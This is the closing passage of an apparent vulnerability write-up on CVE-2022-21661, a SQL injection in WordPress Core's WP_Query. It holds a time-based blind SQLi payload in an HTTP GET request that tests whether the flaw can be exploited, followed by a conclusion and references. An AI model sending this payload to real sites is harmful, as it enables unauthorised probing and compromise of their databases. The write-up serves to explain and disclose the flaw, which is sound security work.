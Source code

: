 Replace `terms` value with an SQLi payload:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](detect.png "Response shows delay caused by payload execution")

---

## Conclusion

The **CVE-2022-21661** vulnerability in **WordPress Core**, prior to version **5.8.3** (affecting versions back to **3.7.37**), stems from improper **sanitization** in `WP_Query`, leading to a potential SQL Injection vulnerability.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

---

## Notes

[^tax_query]: Since the patch is located in **src/wp-includes/class-wp-tax-query.php**, this file defines the `WP_Tax_Query` class, which handles the `tax_query` parameter in `WP_Query`. Any modification to this file directly affects how `tax_query` arguments are **parsed and validated**.

---
